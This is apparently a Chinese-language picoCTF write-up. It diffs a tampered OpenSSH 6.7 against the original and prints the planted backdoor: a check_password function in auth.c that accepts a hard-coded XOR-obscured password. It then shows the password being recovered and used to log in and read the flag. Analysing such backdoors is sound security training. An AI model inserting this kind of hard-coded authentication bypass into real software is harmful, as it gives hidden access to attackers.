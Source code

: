 # SSH Backdoor
提示：hacker留了後門，也許你可以拿來和openssh原始碼做比較？
 * 下載openssh-6.7，並使用 diff 察看hacker改了什麼檔案：
```
$ diff openssh-6.7p1_pico openssh-6.7p1_origin/
diff openssh-6.7p1_pico/auth.c openssh-6.7p1_origin/auth.c
777,794d776
<
< static int frobcmp(const char *chk, const char *str) {
< 	int rc = 0;
< 	size_t len = strlen(str);
< 	char *s = xstrdup(str);
< 	memfrob(s, len);
<
< 	if (strcmp(chk, s) == 0) {
< 		rc = 1;
< 	}
<
< 	free(s);
< 	return rc;
< }
<
< int check_password(const char *password) {
< 	return frobcmp("CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY", password);
< }
diff openssh-6.7p1_pico/auth.h openssh-6.7p1_origin/auth.h
214,215d213
< int check_password(const char *);
<
diff openssh-6.7p1_pico/auth-passwd.c openssh-6.7p1_origin/auth-passwd.c
115,117d114
< 	if (check_password(password)) {
< 		return ok;
< 	}
Only in openssh-6.7p1_pico: buildpkg.sh
Only in openssh-6.7p1_pico: config.h
Only in openssh-6.7p1_pico: config.log
Only in openssh-6.7p1_pico: config.status
Common subdirectories: openssh-6.7p1_pico/contrib and openssh-6.7p1_origin/contrib
Only in openssh-6.7p1_pico: Makefile
Common subdirectories: openssh-6.7p1_pico/openbsd-compat and openssh-6.7p1_origin/openbsd-compat
Only in openssh-6.7p1_pico: opensshd.init
Only in openssh-6.7p1_pico: openssh.xml
Common subdirectories: openssh-6.7p1_pico/regress and openssh-6.7p1_origin/regress
Common subdirectories: openssh-6.7p1_pico/scard and openssh-6.7p1_origin/scard
Only in openssh-6.7p1_pico: survey.sh
```
diff 告訴我們，hacker把authentication method 改成：
 * ```frobcmp("CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY", password)```檢查通過，就能登入server
  * frobcmp 把加密後的password 和```"CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY"```比較
  * 加密password的方法是：```memfrob(xstrdup(password), strlen(password))```
 * 看看 memfrob 做什麼：$ man memfrob
```
SYNOPSIS
       #define _GNU_SOURCE             /* See feature_test_macros(7) */
       #include <string.h>

       void *memfrob(void *s, size_t n);
DESCRIPTION
       The memfrob() function encrypts the first n bytes of the memory
       area s by exclusive-ORing each character with  the  number  42.
       The  effect can be reversed by using memfrob() on the encrypted
       memory area.

       Note that this function is not a proper encryption  routine  as
       the  XOR  constant  is  fixed,  and is suitable only for hiding
       strings.
```
 * 重點：**The  effect can be reversed by using memfrob() on the encrypted
 memory area.**
 * 所以，寫了一個gen_password.c，對```"CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY"```做一次memfrob
  * 得到password = ```iminyourmachinestealingyourflags```
 * 拿去登入backdoor.picoctf.com：
```
$ ssh jon@backdoor.picoctf.com
jon@backdoor.picoctf.com's password:
Last login: Wed Jul 22 20:14:47 2015 from f053221121.adsl.alicedsl.de
jon@ip-10-45-162-116:~$ ls
flag.txt
jon@ip-10-45-162-116:~$ cat flag.txt
ssshhhhh_theres_a_backdoor
```
